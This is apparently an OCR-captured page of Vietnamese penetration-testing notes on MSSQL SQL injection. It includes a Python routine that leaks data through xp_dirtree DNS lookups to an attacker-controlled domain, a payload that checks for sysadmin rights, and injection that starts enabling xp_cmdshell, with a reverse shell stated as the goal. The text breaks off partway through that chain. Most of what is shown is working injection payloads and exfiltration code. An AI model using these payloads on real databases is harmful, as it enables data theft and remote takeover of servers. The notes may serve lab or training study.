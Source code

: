 #### **Ví dụ:**
```python
def split_and_send(data):
    subdomains = [data[i:i+63] for i in range(0, len(data), 63)]
    for subdomain in subdomains:
        payload = f"maria';DECLARE @T='{subdomain}';EXEC('master..xp_dirtree \"\\'+@T+'.YOUR.DOMAIN\"');--"
        send_payload(payload)
```

---

11
### **Remote Code Execution qua SQL Injection (MSSQL)**

---

### **Tổng quan**
Khai thác lỗ hổng **SQL Injection** để kích hoạt **Remote Code Execution (RCE)** thông qua MSSQL. Mục tiêu cuối cùng là:
1. Kích hoạt **xp_cmdshell**.
2. Thực thi lệnh để kiểm tra quyền.
3. Thiết lập reverse shell.

---

### **1. Kiểm tra quyền sysadmin**

#### **Mục tiêu:**
Xác định xem tài khoản có quyền **sysadmin** hay không.

#### **Payload:**
```sql
maria' AND IS_SRVROLEMEMBER('sysadmin')=1;--
```

- **Kết quả:**
  - **`taken`** → Tài khoản có quyền sysadmin.
  - **`available`** → Tài khoản không có quyền sysadmin.

---

### **2. Kích hoạt xp_cmdshell**

#### **Mục tiêu:**
Bật **xp_cmdshell** (mặc định bị tắt).

#### **Quy trình:**
1. Bật **show advanced options**:
   ```sql
   ';exec sp_configure 'show advanced options','1';reconfigure;--
   ```
